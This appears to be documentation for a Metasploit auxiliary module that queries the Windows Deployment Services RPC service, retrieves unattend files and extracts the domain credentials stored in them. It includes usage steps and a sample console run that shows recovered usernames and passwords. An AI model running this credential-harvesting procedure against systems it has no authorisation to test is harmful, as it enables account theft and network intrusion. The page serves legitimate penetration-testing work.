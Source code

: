 ## Vulnerable Application

This module retrieves the client unattend file from Windows Deployment Services RPC service and parses out the stored credentials. Tested against Windows 2008 R2 x64 and Windows 2003 x86.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/dcerpc/windows_deployment_services) and pull request #1420 (https://github.com/rapid7/metasploit-framework/pull/1420).

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/dcerpc/windows_deployment_services`
  3. set RHOST [ip]
  4. Do: `run`

## Scenarios

### A run on Windows Server 2008

  ```
  msf > use modules/auxiliary/scanner/dcerpc/windows_deployment_services
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > show options
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > set RHOST 192.168.5.1
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > run

    [*] Binding to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040] ...
    [+] Bound to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040]
    [*] Sending X64 Client Unattend request ...
    [*] Raw version of X64 saved as: C:/Documents and Settings/user/.msf5/loot/20121213104745_default_192.168.5.1_windows.unattend_399005.txt
    [+] Retrieved wds credentials for X64
    [*] Sending X86 Client Unattend request ...
    [*] Sending IA64 Client Unattend request ...

      Windows Deployment Services
      ===========================

      Architecture  Type  Domain        Username  Password
      ------------  ----  ------        --------  --------
      X64           wds   Fabrikam.com  username  my_password

    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

